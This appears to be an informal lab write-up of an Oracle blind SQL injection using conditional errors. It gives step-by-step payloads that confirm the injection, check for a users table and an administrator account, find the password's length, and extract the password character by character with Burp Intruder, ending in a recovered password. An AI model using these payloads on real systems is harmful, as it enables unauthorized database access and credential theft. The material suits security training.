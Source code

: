





# Testing if sqli exist or not

` ' `
adding ' -> gives error

`' '`
adding ' ' -> doesnot gives error

now conforming if the server is interpreting the injection as SQL query

`' || (select '' from dual )||`

no error

lets try with a non existent table

`|| (select '' from random-table ) ||`


# Verifying if users table exist

`  ' || (select '' from users where rownum = 1) || '`



# Verifying user administrator exist in users table

'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

here from ..... will run first
if administrator username exist then the select case query runs giving us error
if administrator username doesnot exist then the select case query doesnot runs thus no error




# finding the length of the password

'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' and length(password)>1)||'

here from users where ..... will run first
if use username administrator exist(which do exist, proved in previous step)  and lenght of password field >1
then gives error
if no doesnot give error

--> status 200 at >20 --> so lenght of password in 20




# Taking the password char one by one

'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' and substr(password,1,1) ='a') ||'


using burp intruder

password ::







wt9xjvsnnars5ceg6hyr



























